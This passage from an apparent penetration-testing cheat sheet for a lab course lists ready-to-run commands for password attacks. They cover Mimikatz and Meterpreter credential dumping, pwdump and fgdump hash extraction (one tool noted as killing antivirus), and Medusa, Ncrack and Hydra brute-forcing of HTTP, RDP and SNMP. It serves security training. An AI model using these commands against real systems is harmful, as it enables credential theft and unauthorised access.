         -   `crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha`

        -   `crunch 8 8 -t ,@@^^%%%`

    -   Pwdump and Fgdump - Security Accounts Manager (SAM)

        -   `pwdump.exe` - attempts to extract password hashes

        -   `fgdump.exe` - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

    -   Windows Credential Editor (WCE)

        -   allows one to perform several attacks to obtain clear text
            passwords and hashes. Usage: `wce -w`

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            ```
            meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords
            ```

    -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
        
            `hydra -P password-file.txt -v $ip snmp`
